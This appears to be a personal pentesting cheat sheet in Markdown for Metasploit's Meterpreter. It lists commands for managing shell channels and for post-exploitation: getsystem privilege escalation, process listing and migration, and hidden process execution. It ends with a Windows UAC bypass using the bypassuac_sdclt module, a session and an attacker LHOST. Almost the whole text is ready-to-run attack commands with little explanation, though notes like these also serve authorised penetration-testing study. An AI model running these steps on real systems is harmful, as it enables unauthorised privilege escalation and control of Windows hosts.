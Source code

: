 #frameworks #metasploit #exploit #shells 

### Working with channels

channels are multiple shells in the same host

```msf
shell
```

then CTRL+Z to background it

```msf
channel -l
```

Select

```msf
channel -i 1
```


### Post Exploitation

```msf
idletime
```

```msf
getuid
```

```msf
getsystem
```

List the processes

```msf
ps
```

```msf
migrate 8052
```

Start a process with the current user

```msf
execute -H -f notepad
```

### UAC Bypass

🔴 Make sure its a admin process
```msf
use exploit/windows/local/bypassuac_sdclt
show options
set SESSION 9
set LHOST 192.168.119.4
run
```



